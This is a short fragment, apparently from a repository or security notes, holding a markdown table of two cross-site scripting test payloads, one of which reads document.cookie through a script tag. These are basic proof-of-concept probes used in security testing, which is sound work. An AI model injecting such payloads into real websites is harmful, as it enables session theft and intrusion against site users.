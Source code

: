 | Vulnerability               | Payload                                                |
|-----------------------------|--------------------------------------------------------|
| XSS                         |       <script>alert(document.cookie)</script>          |
|-----------------------------|--------------------------------------------------------|
| XSS2                         |       <script>alert(test)</script>          |